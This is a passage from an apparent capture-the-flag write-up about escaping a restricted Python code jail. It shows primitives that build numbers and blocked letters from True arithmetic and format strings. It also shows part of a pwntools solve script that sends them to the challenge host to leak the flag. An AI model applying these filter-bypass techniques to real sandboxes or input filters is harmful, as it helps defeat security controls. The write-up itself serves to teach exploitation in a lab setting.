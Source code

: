 ```python
send_code("ffffffffffffff=ffffffffff+ffff")     # ffffffffffffff = 14 (this is used for later)
```

Now, for the second part of the `==` statement in the denominator, I could use `'a'`, `'b'`, `'c'`, and most other letters, but there were 4 that I couldn't use since they were blocked. I took the same approaching of defining primitives for them by using the statement `'%s'%ord`, which used a format string to generate the string `'<built-in function ord>'`. I then used subscripts to get `l`, `i`, and `t`. For e, I used a hex format string with the number 14: `'%x'%ffffffffffffff`. 

```python
# Retrieve unusable ASCII chars
send_code("g='%s'%ord")                 # g = '<built-in function ord>'
send_code("z=g[ffff]")                  # z = 'l'
send_code("y=g[fff]")                   # y = 'i'
send_code("x=g[fffff]")                 # x = 't'
send_code("w='%x'%ffffffffffffff")      # w = 'e'
```

Once these primitives were defined, I made another `while True` loop that would test for errors by trying different letters. Note that since I couldn't use parenthesis to specify order of operations, I just defined intermittent variables and used them later (like `p` for the denominator).

Here's my final [solve script](/static/amactf-censored/solve2.py):

```python
from pwn import *

# initializations
flag = "amateursCTF{"

# helper function
def send_code(code: str):
    p.sendline(code.encode())
    return p.recvuntil(b'Give code: ').decode().split("Give")[0]


# start connection and flush
p = remote('amt.rs', 31672)
p.sendline(b'_')
p.recvuntil(b'Give code: ')
p.recvuntil(b'Give code: ')



### DEFINE PRIMITIVES ###
# base numbers
send_code("a='b'=='b'")                 # a = True
send_code("b=~a")                       # b = -2
send_code("c=a+b")                      # c = -1
send_code("d=c+a")                      # d = 0
send_code("f=d+a")                      # f = 1

# multiples of f give 2 - 10, 14
send_code("ff=f+f")                     # ff = 2
send_code("fff=ff+f")                   # fff = 3
send_code("ffff=fff+f")                 # ffff = 4
send_code("fffff=ffff+f")               # fffff = 5
send_code("ffffff=fffff+f")             # ffffff = 6
send_code("fffffff=ffffff+f")           # fffffff = 7
send_code("ffffffff=fffffff+f")         # ffffffff = 8
send_code("fffffffff=ffffffff+f")       # fffffffff = 9
send_code("ffffffffff=fffffffff+f")     # ffffffffff = 10
send_code("ffffffffffffff=ffffffffff+ffff")     # ffffffffffffff = 14

# Retrieve unusable ASCII chars
send_code("g='%s'%ord")                 # g = '<built-in function ord>'
```